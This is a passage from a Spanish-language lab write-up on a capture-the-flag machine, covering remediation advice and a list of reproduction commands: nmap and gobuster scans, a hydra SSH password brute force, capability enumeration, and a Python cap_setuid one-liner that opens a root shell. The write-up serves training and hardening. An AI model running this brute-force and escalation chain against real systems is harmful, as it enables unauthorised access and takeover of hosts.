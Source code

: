 #### 7.2 Remediación técnica recomendada (priorizada)

1. **Eliminar capabilities innecesarias** de intérpretes y binarios de propósito general:

```bash
# Auditar primero, luego:
sudo setcap -r /usr/bin/python3.11
```

2. **Forzar autenticación por clave pública** en SSH y deshabilitar autenticación por contraseña:

```bash
# /etc/ssh/sshd_config
PasswordAuthentication no
ChallengeResponseAuthentication no
PermitRootLogin no
```

3. **Retirar pistas públicas** y cualquier dato identificador de usuarios en contenido web. Usar mecanismos de acceso autenticado para áreas que contengan información operativa.
4. **Monitoreo y detección**: desplegar reglas en EDR/Host IDS que alerten sobre uso de binarios con capabilities (invocaciones a /usr/bin/python3.11 con setuid, llamadas a setuid, etc.).
5. **Políticas de hardening y revisión periódica** (SUIDs, capabilities, sudoers, paquetes desactualizados).

***

### 8) Reproducibilidad — comandos clave

```bash
# Recon
nmap -sC -sV 192.168.77.67

# Enumeración web
gobuster dir -u http://192.168.77.67 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html -t 50

# Fuerza bruta dirigida (solo en laboratorio autorizado)
hydra -l grumete -P /usr/share/wordlists/rockyou.txt ssh://192.168.77.67 -t 4 -o scans/hydra-ssh.txt

# Acceso por SSH (ejemplo)
ssh grumete@192.168.77.67

# Enumeración local
getcap -r / 2>/dev/null
# (opcional) find / -perm -4000 -type f 2>/dev/null

# Escalada (si python tiene cap_setuid=ep)
/usr/bin/python3.11 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

***

_Documento generado y compilado por deox420 durante la práctica en The Hackers Labs._
